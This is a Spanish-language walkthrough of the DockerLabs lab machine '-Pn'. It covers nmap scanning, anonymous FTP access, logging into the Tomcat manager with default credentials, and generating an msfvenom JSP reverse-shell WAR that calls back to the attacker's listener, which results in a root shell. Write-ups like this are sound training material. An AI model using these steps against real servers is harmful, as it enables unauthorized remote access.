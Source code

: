# [-Pn](https://dockerlabs.es/)

## Despliegue

Primero desplegamos la máquina con ```bash auto_deploy.sh pn.tar``` (si no sabes en la página de DockerLabs ahí un pdf que lo explica).


## Reconocimiento

Una vez desplegada comprobamos que tenemos conectividad con ```ping -c 1 172.17.0.2``` 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/af4d0189-b640-4576-aca6-3c02c75c9434)
<br>
`-c 1` ⮞ solo lo repite una vez<br>
<br>

Ahora vamos con el reconocimiento de nmap ```nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 172.17.0.2 -oG allPorts``` <br>
`-p-` ⮞ aplicar reconocimiento a todos los puertos <br>
`--open` ⮞ solo a los que estén abiertos <br>
`--min-rate 5000` ⮞ para enviar paquetes más rápido <br> 
`-sS` ⮞ para descubrir puertos de manera silenciosa y rápida <br> 
`-vvv` ⮞ conforme descubre un puerto nos lo muestra por pantalla <br> 
`-n` ⮞ no aplica la resolución DNS (tarda mucho en el caso de que no pongamos dicho parámetro)<br> 
`-Pn` ⮞ ignora si esta activa o no la IP<br> 
`-oG` ⮞ exportamos el resultado en formato grepeable (para extraer mejor los datos con herramientas como grep, awk)
<br>

Podemos ver los resultados en el archivo grepeable haciendo ```cat allPorts```, observamos que está abierto el puerto **21** y **8080**.
<br>

![alt text](image.png)

<br>

Al ver que está abierto el puerto FTP vamos ha hacer un escaneo de nmap pero para que nos liste más información. Para llevar a cabo eso debemos hacer ```nmap -p21 -sCV 172.17.0.2 -oN targeted``` <br>
`-p21` ⮞ aplicar el escaneo solo al puerto 21 >
`-sC` ⮞ ejecuta los scripts de reconocimiento básico, los más comunes <br> 
`-sV` ⮞ para conocer la versión del servicio que corre por el puerto (se puede juntar con el anterior y quedaría así `-sCV`)<br> 
`-sS` ⮞ para descubrir puertos de manera silenciosa y rápida <br> 
`-oN` ⮞ lo exporta en formato nmap al archivo targeted
<br>

![alt text](image-1.png)

<br>
<br>


## FTP (Puerto 21)

Una vez ya conozcamos que la versión del ftp es vulnerable al login como `anonymous`, por lo que nos logeamos como este de la siguiente forma `ftp 172.17.0.2` poniendo `anonymous` como login y contraseña, y vemos que tiene un archivo llamado `tomcat.txt`:
<br>

![alt text](image-2.png)
<br>

Nos lo guardamos en nuestra máquina con `get tomcat.txt` por si nos hiciera falta más adelante.

<br>

Vemos el contenido del archivo con `cat tomcat.txt`, y bueno tenemos un posible usuario llamado `tomcat`:
<br>

![alt text](image-3.png)

<br>
<br>


## Página Web (Puerto 8080)

Al ver que aloja un servidor web, nos dirigimos a él poniendo en el buscador la ip que en este caso sería `172.17.0.2:8080`. Observamos que en dicho servidor web se aloja un `Apache TomCat 9.0.88` .
<br>

![alt text](image-4.png)

<br>

Si echamos un vistazo por la página vemos en el siguiente recuadro amarillo, un link para acceder al `manager webapp`:
<br>

![alt text](image-9.png)
<br>

Si pinchamos nos sale lo siguiente:
<br>

![alt text](image-8.png)

<br>

Si buscamos en páginas como [Hacktricks](https://book.hacktricks.xyz/v/es), por la credenciales por defecto de Apache Tomcat nos encontraremos con algo parecido a esto:
<br>

![alt text](image-10.png)

<br>

Probamos las credenciales que aparecen ahí, y las que funcionan son las de `tomcat:s3cr3t`, como bien habiamos encontrado en el fichero (`tomcat.txt`) del servidor ftp, existía un usuario `tomcat`.
<br>

Ahora nos encontramos con el panel de admin de apache, que tiene esta pinta:
<br>

![alt text](image-12.png)

<br>

Ahora lo que debemos hacer es buscar alguna manera de intentar entrar en la máquina `-Pn`, en la misma página de [Hacktricks](https://book.hacktricks.xyz/v/es/network-services-pentesting/pentesting-web/tomcat) donde he encontrado las credenciales por defecto más abajo nos menciona una RCE si tienes acceso al panel de Administrador que es justo lo que hemos conseguido: 
<br>

![alt text](image-14.png)

<br>

Nos dice que tenemos que subir un archivo `.war`, para ello usaremos `msfvenom` como bien nos indica la página de [Hacktricks](https://book.hacktricks.xyz/v/es/network-services-pentesting/pentesting-web/tomcat) con el siguiente comando: `msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.17.0.1 LPORT=443 -f war -o revshell.war` <br>
`-p` ⮞ le especificamos el payload a usar <br>
`LHOST` ⮞ nuestra dirección ip <br> 
`LPORT` ⮞ nuestro puerto por el cual nos pondremos en escucha <br>
`-f` ⮞ formato para exportar el payload <br> 
`-o` ⮞ guardar el payload en un archivo 
<br>

Observamos que se nos ha generado el archivo con el cual nos mandaremos una reverse shell:
<br>

![alt text](image-15.png)
<br>

En primer lugar, nos pondremos en escucha por el puerto especificado, en este caso el `443` con el siguiente comando `nc -nlvp 443`.
<br>

En segundo lugar, subiremos el archivo `revshell.war` al Panel de Administrador de Tomcat en el apartado que dice `WAR file to deploy`:
<br>

![alt text](image-16.png)
<br>

Nos dice que se ha subido correctamente, comprobamos que el archivo se encuentra en esta tabla:
<br>

![alt text](image-17.png)
<br>

Una vez que le hemos dado click recibiremos la revshell, por el puerto que nos habiamos puesto en escucha
<br>

![alt text](image-18.png)

<br>
<br>

## Escalada de Privilegios

No es necesario el tratamiento de la TTY, pero si queremos hacer alguna prueba con dicha máquina, debéis aplicar el siguiente tratamiento de la TTY:<br>
1-.`script /dev/null -c bash` <br>
2-.`Pulsamos CTRL+Z` <br>
3-.`stty raw -echo; fg` <br>
4-.`reset xterm` <br>
5-.`export SHELL=bash && export TERM=xterm` <br>

No hará falta la escalar privilegios ya que hemos accedido directamente a la máquina víctima `-Pn` como el usuario **root**:
<br>

![alt text](image-19.png)

 > El (;) concatena dos comandos.